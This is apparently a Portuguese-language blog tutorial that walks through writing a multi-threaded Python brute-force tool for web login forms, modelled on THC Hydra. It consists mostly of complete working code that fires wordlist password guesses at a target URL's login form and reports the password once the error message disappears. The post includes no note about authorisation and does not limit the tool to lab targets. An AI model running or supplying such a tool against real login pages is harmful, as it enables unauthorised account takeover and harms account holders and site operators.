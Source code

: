 ```yaml
---
layout: post
title:  "Criando nosso próprio script de Brute Force"
date:   2020-10-14 18:00:00 -0300
categories: hacking
author: "ReddyyZ"
lang: pt-BR
tags: [brute force, login page, python, password cracking]
reading_time: 8 minutes
description: Neste artigo vamos aprender como criar um script de Brute Force multi-threadead, semelhante ao THC Hydra.
image: https://reddyyz.github.io/assets/images/brute-force-post.png
---
```


Neste artigo vamos aprender como criar um script de Brute Force multi-threadead, semelhante ao THC Hydra.

### Bibliotecas usadas

- requests
- argparse
- threading
- os
- time

Vamos usar a biblioteca [requests](https://requests.readthedocs.io/en/master/) para facilitar o nosso trabalho com as requisições HTTP, [argparse](https://docs.python.org/3/howto/argparse.html) para utilizarmos argumentos na linha de comando e [threading]() para usarmos vários threads que proporcionarão uma maior velocidade.

Caso não queira depender de bibliotecas, pode fazer todas as requisições na mão usando sockets.

### Como irá funcionar o script

O script receberá como argumento o usuário que deve ser testado, uma wordlist com as possíveis senhas e a mensagem de erro que é exibida quando se erra o login.

Ele percorrerá essa lista de senhas testando cada uma, e checando se a mensagem de erro é exibida, caso a mensagem de erro não apareça, a senha foi encontrada!

### Multi-Threading

O multi-threading funcionará da seguinte forma:

> Neste exemplo vamos supor que a quantidade de threads definida é 16

No script terá um `for i in range(16)` que irá obter a primeira senha da lista, remove-la, criar um thread para essa requisição e adicioná-lo a uma lista de threads.

Em seguida ele irá aguardar esses 16 threads terminarem e então repetirá este mesmo código com outras 16 senhas, até achar a senha correta ou terminar a wordlist.

### Criando o script

Agora que já entendemos como o script funcionará, vamos codar!

Primeiro importamos as bibliotecas:
```python
import requests, argparse, threading, os, time
```

---

E agora vamos criar a função que irá enviar a requisição

```python
def send_request(url, data, login, error_message, t_number):
    '''
    error_message = Mensagem de login errado
    data = Formulario preenchido
    login = Usuario e senha
    t_number = Numero do thread
    '''
    print(f"[Thread: {t_number}] Testing: {login[0]}:{login[1]}")
    r = requests.post(url,data=data,timeout=3)

    if not error_message in r.text:
       print(f"\nSENHA ENCONTRADA: {login[0]}:{login[1]}\n")
       os._exit(1)
```

Aqui enviamos a requisição POST e aguardamos a resposta:
```python
r = requests.post(url,data=data,timeout=3)
```
E em seguida checamos se é exibida a mensagem de erro:
```python
if not error_message in r.text:
```
Caso não seja exibida, exibimos a senha encontrada e damos um "exit" no script.
```python
print(f"\nSENHA ENCONTRADA: {login[0]}:{login[1]}\n")
os._exit(1)
```

---

Agora vamos criar a função que irá separar e nos retornar os dados que passarmos (formulários e a mensagem de erro).

```python
def parse_info(data):
    '''
    data = "usuario=^USER^&senha=^PASS^:Username or password invalid"
    '''

    forms, mensagem_de_erro = data.split(":")
    forms = forms.split("&")
    
    user_form = "".join(i.replace("=^USER^","") for i in forms if "^USER^" in i)
    pass_form = "".join(i.replace("=^PASS^","") for i in forms if "^PASS^" in i)

    return (user_form, pass_form, mensagem_de_erro)
```

A função separa a mensagem de erro dos formulários, depois percorre os formulários procurando onde deve-se inserir o usuário e senha, e então retorna os dados.

---

E agora a função que irá receber os argumentos do usuário usando o argparse

```python
def arguments():
    parser = argparse.ArgumentParser("Brute Force",description="https://reddyyz.github.io",usage='python3 bruteforce.py -u http://localhost/login.php -i "user=^USER^&pass=^PASS^:Username or password invalid"')

    parser.add_argument("-u","--url",help="URL do Alvo")
    parser.add_argument("-t","--threads",help="Número de threads",default=16,type=int)
    parser.add_argument("-i","--info",help="Fomularios para atacar e mensagem de erro")

    parser.add_argument("-uL","--user",help="Usuário")

    parser.add_argument("-P","--pass-wordlist",help="Wordlist para senhas")

    args = parser.parse_args()
    if not args.url:
        exit(parser.print_help())

    if not args.user:
        exit(parser.print_help())
    if not args.pass_wordlist:
        exit(parser.print_help())

    return (args.url, args.threads, args.info, args.user, args.pass_wordlist)
```

---

Agora com tudo pronto, vamos criar a função principal:

```python
def main():
    url, threads, info, user, pass_wordlist = arguments()
    user_form, pass_form, mensagem_de_erro = parse_info(info)
    # print("Iniciando...\n")
    print(\
f"""
Alvo: {url}
Threads: {threads}
Mensagem de Erro: {mensagem_de_erro}
Formulários:
    USER -> {user_form}
    PASS -> {pass_form}
""")

    time.sleep(2)

    fd = open(pass_wordlist,"r")
    passwords = fd.read().split("\n") # Lê as senhas
    fd.close()

    while True:
        if not passwords: break # Encerra o script caso as senhas tenham acabado
        threads_ = [None] * threads

        for i in range(threads):
            try:
                passwd = passwords[0]
                passwords.remove(passwd)
            except IndexError:
                break

            login = [user, passwd]
            data = {
                user_form: user,
                pass_form: passwd
            }

            threads_[i] = threading.Thread(target=send_request, args=(url, data, login, mensagem_de_erro, i))
            threads_[i].start()

        for thread in threads_:
            try:
                thread.join()
            except:
                pass

    print("Ataque encerrado!")
```

---

Aqui lemos as senhas, e criamos uma sequência de threads para a função "send_request", aguardamos os threads encerrarem, e repetimos até a senha ser encontrada.

```python
while True:
        if not passwords: break # Encerra o script caso as senhas tenham acabado
        threads_ = [None] * threads

        for i in range(threads):
            try:
                passwd = passwords[0]
                passwords.remove(passwd)
            except IndexError:
                break

            login = [user, passwd]
            data = {
                user_form: user,
                pass_form: passwd
            }

            threads_[i] = threading.Thread(target=send_request, args=(url, data, login, mensagem_de_erro, i))
            threads_[i].start()

        for thread in threads_:
            try:
                thread.join()
            except:
                pass
```

E por fim, colocamos a execução da função main dentro do `if __name__ == "__main__":`

```python
if __name__ == "__main__":
    main()
```

E nosso script está pronto! [Código completo](https://gist.github.com/ReddyyZ/992e9545d2b3057d8fdc7896e51f3c71)

Demonstração:

<script id="asciicast-365627" src="https://asciinema.org/a/365627.js" async></script>

---

### Obrigado!

Obrigado por ler até aqui! Caso tenha alguma dúvida entre no meu servidor do discord e pergunte!<br>
[Discord Server](https://discord.gg/v5d3PZ9)
<br>